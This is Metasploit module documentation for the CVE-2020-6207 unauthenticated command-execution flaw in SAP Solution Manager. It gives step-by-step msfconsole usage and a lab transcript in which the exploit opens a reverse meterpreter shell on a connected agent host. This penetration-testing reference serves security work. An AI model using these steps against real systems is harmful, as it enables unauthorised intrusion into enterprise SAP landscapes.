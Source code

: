 ## Vulnerable Application
This module exploits the CVE-2020-6207 vulnerability within the SAP EEM servlet (tc~smd~agent~application~eem) of
SAP Solution Manager (SolMan) running version 7.2. The vulnerability occurs due to missing authentication
checks when submitting a SOAP request to the /EemAdminService/EemAdmin page to get information about connected SMDAgents,
send HTTP request (SSRF) and execute OS command on connected SMDAgent. Works stable in connected SMDAgent with Java version 1.8.

Successful exploitation will allow unauthenticated remote attackers to get reverse shell from connected to the SolMan
agent as the user under which it runs SMDAgent service, usually daaadm.

Paper: [An Unauthenticated Journey to Root][1]

### Application Background
In SAP landscapes, SolMan could be compared to a domain controller system in the Microsoft world.
It is a technical system that is highly connected with powerful privileges to all other SAP systems.
Once an SAP system is connected to the solution manager, it receives the name of a "managed" or "satellite" system.
As an administration solution, SolMan is intended to centralize the management of all the systems within the landscape by
performing actions such as implementing, supporting, monitoring and maintaining enterprise solutions.

### Installation Steps
Steps to install, configure and manage SolMan can be found online at [this page][2].

Once set up and configured, the instances will be vulnerable at the default HTTP port 50000.

## Verification Steps

1. Start msfconsole
1. Do: `workspace [WORKSPACE]`
1. Do: `use auxiliary/admin/sap/sap_2020_6207_solman_rs`
1. Do: `set RHOSTS [SolMan IP]`
1. Do: `set LHOST [Your IP]`
1. Do: `check`
1. Verify that the target is vulnerable and the list of connected agents was returned.
1. Do: `set AGENT [Connected agent server name]`
1. Do: `exploit`
1. Verify that the session from the connected agent was created.

## Options

### TARGETURI

This is the path to the EEM admin page of the SolMan that is vulnerable to CVE-2020-6207.
By default, it is set to `/EemAdminService/EemAdmin`. However, it can be changed if SolMan
was installed by a path different from that of the web root. For example, if the SolMan
server was proxied to the `/solman/` path under the web root, then this value would be
set to `/solman/EemAdminService/EemAdmin`.

### AGENT

Connected agent server name.
Example: `linux_agent`

## Scenarios

### Vulnerable SolMan 7.2 running on agent: test_linux with OS: Linux and java version: 1.8

```
msf6 > workspace -a SAP_TEST
[*] Added workspace: SAP_TEST
[*] Workspace: SAP_TEST
msf6 > use exploit/multi/sap/cve_2020_6207_solman_rs
[*] No payload configured, defaulting to linux/x64/meterpreter/reverse_tcp
msf6 exploit(multi/sap/cve_2020_6207_solman_rs) > set RHOST 172.16.30.46
RHOST => 172.16.30.46
msf6 exploit(multi/sap/cve_2020_6207_solman_rs) > set LHOST 192.168.50.3
LHOST => 192.168.50.3
msf6 exploit(multi/sap/cve_2020_6207_solman_rs) > check

[+] Successfully retrieved agent list:
Connected Agents List
=====================

 Server Name   Host Name                Instance Name  OS Name                 Java Version
 -----------   ---------                -------------  -------                 ------------
 test_windows  SAP731.corp.test.com     SMDA97         Windows Server 2008 R2  1.6.0_29
 test_linux    SAPERP7.corp.test.com    SMDA98         Linux                   1.8.0_25

[+] 172.16.30.46:50000 - The target is vulnerable.
msf6 exploit(multi/sap/cve_2020_6207_solman_rs) > set AGENT test_linux
AGENT => test_linux
msf6 exploit(multi/sap/cve_2020_6207_solman_rs) > exploit

[*] Started reverse TCP handler on 192.168.50.3:4444
[*] Enable EEM on agent: test_linux
[*] Sending stage (3008420 bytes) to 172.16.30.14
[*] Command Stager progress - 100.00% done (809/809 bytes)
[*] Meterpreter session 1 opened (192.168.50.3:4444 -> 172.16.30.14:60203) at 2021-03-25 17:03:38 +0300

meterpreter > getuid
Server username: daaadm @ SAPERP7 (uid=1004, gid=1001, euid=1004, egid=1001)
meterpreter > pwd
/usr/sap/DAA/SMDA98/SMDAgent
meterpreter > ipconfig

Interface  1
============
Name         : lo
Hardware MAC : 00:00:00:00:00:00
MTU          : 16436
Flags        : UP,LOOPBACK
IPv4 Address : 127.0.0.1
IPv4 Netmask : 255.0.0.0
IPv4 Address : 127.0.0.2
IPv4 Netmask : 255.0.0.0
IPv6 Address : ::1
IPv6 Netmask : ffff:ffff:ffff:ffff:ffff:ffff::


Interface  2
============
Name         : eth0
Hardware MAC : 00:0c:29:f4:8d:e0
MTU          : 1500
Flags        : UP,BROADCAST,MULTICAST
IPv4 Address : 172.16.30.14
IPv4 Netmask : 255.255.255.0
IPv6 Address : fe80::20c:29ff:fef4:8de0
IPv6 Netmask : ffff:ffff:ffff:ffff::

meterpreter > background
[*] Backgrounding session 1...
msf6 exploit(multi/sap/cve_2020_6207_solman_rs) > services
Services
========

host          port   proto  name  state  info
----          ----   -----  ----  -----  ----
172.16.30.46  50000  tcp    soap  open   SAP Solution Manager

msf6 exploit(multi/sap/cve_2020_6207_solman_rs) > vulns

Vulnerabilities
===============

Timestamp                Host          Name                                                            References
---------                ----          ----                                                            ----------
2021-03-25 14:03:37 UTC  172.16.30.46  SAP Solution Manager remote unauthorized OS commands execution  CVE-2020-6207,URL-https://i.blackhat.com/USA-20/Wednesday/us-20-
                                                                                                       Artuso-An-Unauthenticated-Journey-To-Root-Pwning-Your-Companys-E
                                                                                                       nterprise-Software-Servers-wp.pdf,URL-https://github.com/chipik/
                                                                                                       SAP_EEM_CVE-2020-6207

msf6 exploit(multi/sap/cve_2020_6207_solman_rs) > sessions

Active sessions
===============

  Id  Name  Type                   Information                                                                       Connection
  --  ----  ----                   -----------                                                                       ----------
  1         meterpreter x64/linux  daaadm @ SAPERP7 (uid=1004, gid=1001, euid=1004, egid=1001) @ SAPERP7.corp.te...  192.168.50.3:4444 -> 172.16.30.14:60203 (::1)

```

[1]: https://i.blackhat.com/USA-20/Wednesday/us-20-Artuso-An-Unauthenticated-Journey-To-Root-Pwning-Your-Companys-Enterprise-Software-Servers-wp.pdf
[2]: https://blogs.sap.com/2016/02/16/solution-manager-72-installation-and-configuration-i-installations/

